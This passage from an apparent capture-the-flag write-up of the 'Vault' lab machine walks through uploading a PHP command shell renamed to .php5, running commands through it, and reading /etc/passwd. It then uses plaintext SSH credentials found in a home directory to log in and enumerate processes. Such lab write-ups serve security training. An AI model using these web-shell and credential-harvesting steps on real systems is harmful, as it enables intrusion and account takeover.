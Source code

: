 We could also see from our previous gobuster that there is a `/design/uploads` directory, we can safely assume that is where our uploaded files go.

Now we grab our `cmd.php` file we have also used in the past and change it to `cmd.php5` then upload it.

If we browse to [http://10.10.10.109/sparklays/design/uploads/cmd.php5?cmd=whoami](http://10.10.10.109/sparklays/design/uploads/cmd.php5?cmd=whoami) we can see that we have command execution.

Playing around with some enumeration commands we can see the users on the machine with `cat /etc/passwd`:
![212205624.png]({{site.baseurl}}/Images/Vault/212205624.png)

The HTML output does not render the new line characters correctly so if we press ctrl+u to view page source we get a cleaner formatted output:
![212271168.png]({{site.baseurl}}/Images/Vault/212271168.png)

From this we can see that there are 3 users: root, alex and dave

Browsing around their home directories, looking for SSH keys or credentials (because we know ssh is running) we eventually find:
![212238372.png]({{site.baseurl}}/Images/Vault/212238372.png)

key contains the phrase `itscominghome`

ssh contains the words `dave` and `Dav3therav3123` which looks like a username and password to me.

Trying to log into ssh with dave:
```
root@kali: ssh dave@10.10.10.109
Password: Dav3therav3123
...
```

and we are in as Dave. Poking around the file system we can see on dave's Desktop there is a `Servers` file. peeking at the file we can see:
```
dave@ubuntu:~$ cat Servers
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
```

Interesting. Lets also run `ps auxw` and `netstat -an | grep LISTEN` while we are at it to see what is running and listening on the current box:
```
dave@ubuntu:~$ ps auxw
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  1.2  0.1 185272  5900 ?        Ss   17:05   0:01 /sbin/init auto noprompt
root          2  0.0  0.0      0     0 ?        S    17:05   0:00 [kthreadd]
root          3  0.0  0.0      0     0 ?        S    17:05   0:00 [kworker/0:0]
root          4  0.0  0.0      0     0 ?        S<   17:05   0:00 [kworker/0:0H]
root          5  0.0  0.0      0     0 ?        R    17:05   0:00 [kworker/u256:0]
root          6  0.0  0.0      0     0 ?        S<   17:05   0:00 [mm_percpu_wq]
root          7  0.0  0.0      0     0 ?        S    17:05   0:00 [ksoftirqd/0]
root          8  0.0  0.0      0     0 ?        S    17:05   0:00 [rcu_sched]
root          9  0.0  0.0      0     0 ?        S    17:05   0:00 [rcu_bh]
root         10  0.0  0.0      0     0 ?        S    17:05   0:00 [migration/0]
root         11  0.0  0.0      0     0 ?        S    17:05   0:00 [watchdog/0]
root         12  0.0  0.0      0     0 ?        S    17:05   0:00 [cpuhp/0]
root         13  0.0  0.0      0     0 ?        S    17:05   0:00 [cpuhp/1]
root         14  0.0  0.0      0     0 ?        S    17:05   0:00 [watchdog/1]
root         15  0.0  0.0      0     0 ?        S    17:05   0:00 [migration/1]
root         16  0.0  0.0      0     0 ?        S    17:05   0:00 [ksoftirqd/1]
root         17  0.0  0.0      0     0 ?        S    17:05   0:00 [kworker/1:0]
root         18  0.0  0.0      0     0 ?        S<   17:05   0:00 [kworker/1:0H]
root         19  0.0  0.0      0     0 ?        S    17:05   0:00 [cpuhp/2]
root         20  0.0  0.0      0     0 ?        S    17:05   0:00 [watchdog/2]
```